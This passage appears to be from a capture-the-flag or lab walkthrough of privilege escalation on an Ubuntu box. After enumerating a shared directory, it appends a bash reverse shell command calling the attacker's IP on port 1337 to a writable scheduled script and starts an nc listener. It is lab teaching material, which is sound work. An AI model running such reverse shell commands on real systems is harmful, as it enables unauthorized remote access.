 ````sql
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat May  6 21:50:34 2023
$
```

Great! We get a shell! 

Now we start to enumerate a bit the box, we can see that there is three ```home``` directory.

```bash
$ ls
james_bond  q  Shared
```

The ```james_bond``` one is where we are coming from, there is nothing to see on it. We can't access the ```q``` home directory.

Into ```Shared```, we found an interesting script.

```bash
$ cd Shared
$ ls
update.sh
$ cat update.sh
#!/bin/bash
#This command will run every two minutes and scan for running processes
#Doing so will protect us from being hacked
#Please do not change this file
ps -aux
```

Looking at the file permission, we can see that ```q``` and the ```agents``` group are allowed to write on it.

```bash
$ ls -la
total 12
dr-xr-x--- 2 q    agents 4096 May  3 10:27 .
drwxr-xr-x 5 root root   4096 Apr 17 15:43 ..
-rwxrw---- 1 q    agents  168 May  3 10:27 update.sh

$ groups
james_bond agents
```

Nice, we are from ```agents``` group! Let's look at my kali ip adderss which is ```192.168.1.39``` in this case, and then setup a listener on port ```1337```.

```bash
$ nc -nvlp 1337
```

Then we add a bash reverse shell at the end of ```update.sh```.

```bash
$ echo "bash -i >& /dev/tcp/192.168.1.39/1337 0>&1" >> update.sh     
$ cat update.sh
#!/bin/bash
#This command will run every two minutes and scan for running processes
````